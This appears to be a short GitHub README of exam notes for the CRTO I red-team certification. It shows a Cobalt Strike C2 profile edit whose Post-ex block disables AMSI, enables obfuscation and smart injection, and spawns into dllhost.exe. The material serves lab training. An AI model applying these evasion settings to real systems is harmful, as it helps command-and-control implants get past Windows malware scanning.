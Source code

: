 # CRTO I great commands

In this repo, i share all things that you need to pass in CRTO I in a easy way. So, follow these steps to have sucessfull. good luck!  

# Setup 
Modify C2 Profile to add amsi bypass above http-get (We need do this to get informations about 1° flags).  
``vi /opt/cobaltstrike/c2-profiles/normal/webbug.profile``  
Inside of the "webbug.profile" file, you need leet this document exactly like this (below).  
``` 
Post-ex {
set amsi_disable "true";
set obfuscate "true";
set smartinject "true"; set spawnto_x64 "%windir%\\sysnative\\dllhost.exe"; set
spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```



![Image](https://github.com/user-attachments/assets/7841da7f-92a2-4900-ab9c-dd3526b7111e)
